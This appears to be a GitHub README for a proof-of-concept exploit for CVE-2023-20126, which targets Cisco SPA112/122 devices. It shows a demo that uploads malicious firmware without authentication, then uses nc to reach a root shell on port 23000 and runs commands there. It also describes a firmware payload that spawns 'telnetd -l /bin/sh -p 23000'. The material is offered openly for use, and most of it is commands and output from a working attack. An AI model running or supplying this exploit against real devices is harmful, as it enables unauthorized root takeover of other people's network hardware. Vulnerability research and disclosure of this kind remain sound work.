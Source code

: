 # RancidCrisco
Minimum Viable PoC for CVE-2023-20126

This is the initial release. It works, but its the 'simplest case' exploit.

Gives a root-shell on port 23000/tcp.

I still need to clean up the toolchain used for editing the firmware and will probably put that in a different repo. It is mostly based on the work of @BigNerd95, but with minor alterations to work on the SPA112/122 firmware files.

## Demo.

```
$ python3 CVE-2023-20126.py http://192.168.0.152 CFW.bin 
Base URL: http://192.168.0.152
Firmware File: CFW.bin
Sending firmware update...
Firmware upgrade successful. Device will reboot eventually and be running the new FW.

< wait a few mins, nervously > 

$ nc -v 192.168.0.152 23000
Connection to 192.168.0.152 port 23000 [tcp/inovaport1] succeeded!
????????


BusyBox v1.10.2 (2019-10-14 12:41:41 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id;uname -a;pwd
id;uname -a;pwd
uid=0(admin) gid=0(admin)
Linux SPA112 2.6.26.5 #1 PREEMPT Sun Sep 6 10:54:57 CST 2015 armv5tejl unknown
/
# cat /etc/version
cat /etc/version
router_major_version:1.4.1
router_minor_version:SR5
build_date:Mon Oct 14 12:48:12 CST 2019
build_version:6735
hardware_version:1.1.0
```

## Files

- fwupload.py - firmware image uploader that bypasses auth by simply not sending any, exploiting CVE-2023-20126. takes two arguments: URL of the devices Web UI, and firmware file to upload.
- telnet-23000.bin - Proof of Concept malicious firmware image that spawns `telnetd -l /bin/sh -p 23000`, giving a root shell on port 23000/tcp. Based on work by bignerd95.

## Licence
WTFPL.

## Bugs
use git issue. 
